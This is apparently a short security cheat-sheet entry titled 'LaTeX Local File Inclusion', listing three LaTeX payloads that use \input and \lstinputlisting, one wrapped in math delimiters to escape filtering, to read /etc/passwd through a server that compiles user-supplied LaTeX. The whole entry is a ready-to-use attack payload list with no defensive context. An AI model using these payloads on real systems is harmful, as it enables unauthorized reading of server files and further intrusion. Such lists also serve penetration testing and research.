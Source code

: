 # LaTeX Local File Inclusion

### Payloads:

 - \input{/etc/passwd}

 - \lstinputlisting{/etc/passwd}

 - $\lstinputlisting{/etc/passwd}$ (Delimiter escape. One-liner)
